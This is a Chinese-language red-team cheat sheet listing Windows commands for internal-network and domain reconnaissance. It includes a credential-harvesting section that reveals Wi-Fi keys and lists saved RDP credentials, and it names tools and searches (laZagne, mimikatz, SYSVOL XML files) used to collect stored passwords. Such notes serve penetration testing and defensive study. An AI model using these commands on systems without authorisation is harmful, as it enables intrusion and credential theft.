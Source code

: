 ```yaml
---
category: 网络安全
tag: 红队
---
```


# 2-内网信息收集-windows

## 常用信息搜集

+ whoami   # 查看当前用户
+ net user   # 查看所有用户
+ query user   # 查看当前在线用户
+ ipconfig /all   # 查看当前主机的主机名/IP/DNS等信息
+ route print   # 查看路由表信息
+ netstat -ano   # 查看端口开放情况
+ arp -a   # 查看arp解析情况
+ tasklist /svc   # 查看进程及对应服务名
+ net localgroup administrators   # 查看管理员组成员
+ systeminfo   # 查看系统信息含补丁信息
+ net use   # 查看ipc连接情况
+ net view   # 查看匿名共享情况
+ netsh firewall show state   # 查看防火墙状态
+ cmdkey /l   # 查看当前保存的登陆凭证=
+ net view  ip 知道ip查看计算机名
+ nbtstat -a ip  知道ip查看计算机名
+ ping name  知道计算机名查看ip
+ nbtstat -a name 知道计算机名查看ip







## 密码搜集

+ netsh wlan show profiles   # 查看连接过的wifi名称

+ netsh wlan show profile name="wifi名称" key=clear   # 查看wifi的密码

+ dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*   # 查看RDP连接凭证

+ dir /a /s /b "网站目录\\\*config\*" > 1.txt   # 数据库配置文件

+ laZagne.exe all -oN   # 本地wifi/浏览器等密码

+ dir %APPDATA%\Microsoft\Windows\Recent   # 查看最近打开的文档

## 连通性

+ ping www.baidu.com   # ICMP连通性

+ nslookup www.baidu.com   # DNS连通性

+ curl https://www.baidu.com   # http连通性

+ nc ip port   # TCP连通性



# 域信息搜集

## 常用信息搜集

+ net config workstation   #查看当前登录域

+ net user /domain   # 获得所有域用户列表

+ net view /domain   # 查看所有的域

+ net view /domain:XXX   # 查看该域内所有主机

+ net group /domain   # 查看所有域用户组列表

+ net group "domain computers" /domain   # 查看域内所有的主机名

+ net group "domain admins" /domain   # 查看所有域管理员

+ net group "domain controllers" /domain   # 查看所有域控制器

+ net group "enterprise admins" /domain   # 查看所有企业管理员

+ nltest /domain_trusts   # 获取域信任信息

+ net time /domain   # 查看当前登录域

+ net accounts /domain   # 查看域密码策略

+ dsquery server   # 寻找目录中的域控制器

+ netdom query pdc   # 查看域控制器主机名

+ wmic useraccount get /all   #获取域内用户的详细信息

## 环境信息搜集

+ nbtscan.exe xx.xx.xx.xx/24   # 查看c段机器

+ csvde.exe -f 1.csv -k   # 批量导入/导出AD用户

+ setspn.exe -T xx.xx.xx.xx -Q */*   # 查看当前域内所有spn

## 密码搜集

+ dir /s /a \\域控IP\SYSVOL\*.xml   # 获取域里面所有机子的本地管理员账号密码
+ mimikatz抓密码





